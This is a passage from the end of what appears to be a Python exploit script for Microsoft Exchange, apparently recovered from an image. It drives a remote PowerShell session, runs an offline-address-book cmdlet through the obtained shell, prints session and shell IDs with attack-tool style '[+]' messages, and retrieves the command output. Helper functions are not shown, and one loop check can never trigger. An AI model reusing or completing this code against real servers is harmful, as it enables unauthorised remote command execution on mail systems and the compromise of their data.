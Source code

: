 ```python
	max_loop = 0
	while max_loop < 5: # prevent loop forever
		ret = receive_data(SessionId, ShellId)
		max_loop = max_loop + 1
		if ret: break
		if max_loop > 10:
			print_error_and_exit("create_new_addressbook failed with receive_data run forever", r=None)
			break
	CommandId = run_cmdlet_new_offlineaddressbook(SessionId, ShellId, RPID)
	print("%s, %s, %s"% (SessionId, ShellId, CommandId))
	print("[+] SessionId = %s, ShellId = %s, CommandId = %s" % (SessionId, ShellId, CommandId))
	print("[+] Sleeping for a few seconds")
	#time.sleep(10)
	get_command_output(SessionId, ShellId, CommandId)

mainFunc()
# SessionId = "d485f26b-288a-4972-ac94-1df2f8e1de91"					
# ShellId = "E2197419-B3DE-4265-9C48-CF313CCD2130"
# CommandId = "DC4F7F04-9B70-4A31-9A16-F54AF2D57E03"
# get_command_output(SessionId, ShellId, CommandId)
```
